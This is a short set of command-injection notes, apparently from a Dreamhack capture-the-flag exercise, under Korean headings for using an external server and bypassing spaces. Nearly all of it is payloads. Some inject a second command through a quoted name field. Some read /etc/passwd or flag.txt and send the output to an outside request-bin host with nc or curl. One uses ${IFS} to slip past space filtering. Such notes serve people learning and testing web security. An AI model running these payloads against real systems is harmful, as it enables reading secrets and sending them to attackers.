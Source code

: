 ### 외부 서버이용
	cat /etc/passwd | nc 127.0.0.1 8000
	echo "{cat_name}" >> /tmp/cat_db
	cool_cat_name"; cat ./flag.txt | nc https://oqsuldv.request.dreamhack.games 80;"
	curl -v 'https://oqsuldv.request.dreamhack.games'
	curl https://oqsuldv.request.dreamhack.games/ -d "$(ls -al)"
	cool_cat_name";curl https://oqsuldv.request.dreamhack.games/ -d "$( cat ./flag.txt)";"

### 공백 우회
	1.1.1.1;ls${IFS}-al